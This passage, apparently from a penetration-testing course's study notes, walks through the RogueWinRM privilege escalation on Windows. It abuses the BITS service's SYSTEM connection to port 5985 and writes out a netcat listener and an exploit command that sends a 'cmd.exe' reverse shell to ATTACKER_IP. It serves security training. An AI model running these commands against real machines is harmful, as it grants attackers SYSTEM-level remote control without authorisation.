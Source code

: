 
To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

`nc -lvp 4442`

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

`c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`

### 21.PNG

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Privilege%20Escalation/Windows%20Privilege%20Escalation/images/21.png)

**Note:** The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.
